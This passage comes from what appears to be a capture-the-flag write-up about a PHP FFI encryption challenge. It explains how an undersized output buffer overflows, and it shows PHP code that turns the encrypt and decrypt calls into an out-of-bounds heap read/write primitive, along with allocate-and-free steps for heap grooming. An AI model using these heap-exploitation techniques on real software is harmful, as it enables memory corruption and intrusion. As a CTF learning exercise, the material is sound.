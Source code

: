 After playing around a little more with the library, I found out that every 1
plain text byte maps to 8 bytes in the encrypted buffer. So, that our output
buffer that only has `[0x100]` actually far from enough and this also confirms
our initial guess that overflow can occurs.

## Overflow in PHP..?  
This challenge expose these 2 functions with FFI in PHP, but to actually
interact with it, we can only run it from the wrapper in `ffi.inc.php`,  
```php  
600) die("oom");  
   $obj=FFI::new("unsigned long long[".strval($len)."]",false,true);  
   FFI::memcpy($obj,$str,$len*8);  
   return $obj;  
}  
function creatbuf($size){  
	$size=intval($size);  
	if($size<=0) die("oom");  
   if($size>4800) die("oom");  
   $len=intval(($size+7)/8);  
   return FFI::new("unsigned long long[".strval($len)."]",false,true);  
}  
function releasestr($str){  
   FFI::free($str);  
}  
function getstr($x,$len){  
   return FFI::string($x,$len);  
}  
function encrypt_impl($in,$blks,$key,$out){  
if($blks>300) die("too many data");  
   FFI::scope("crypt")->encrypt($in,$blks,$key,$out);  
}  
function decrypt_impl($in,$blks,$key,$out){  
if($blks>300) die("too many data");  
   FFI::scope("crypt")->decrypt($in,$blks,$key,$out);  
}  
?>  
```  
We have 4 important primitives `encrypt`, `decrypt`, `releasestr` to free a
chunk, and `creatbuf` to allocate a chunk. [`FFI::new`][1] in `creatbuf`
buffer use `persistent` flags which means that we are dealing with system heap
(glibc malloc), not the internal php heap.

Since we have this overflow with encrypt/decrypt, we can create an OOB R/W
primitive wrapper for this easily.  
```php

```  
Now, we can test it simply by take a dump of the heap and overwrite some of
them.  
```php  
   $x = [];  
   array_push($x,  
       creatbuf(0x11), // 0x20 sized chunks  
       creatbuf(0x11),   
       creatbuf(0x11),   
       creatbuf(0x11)  
   );  
...  
   releasestr($x[1]);  
   releasestr($x[2]);  
   read($x[0], 299);  
   for ($i = 0; $i < 300; $i++) {  
       echo $buf2[$i] . "\n";  
   }  
```  

[1]: https://www.php.net/manual/en/ffi.new.php  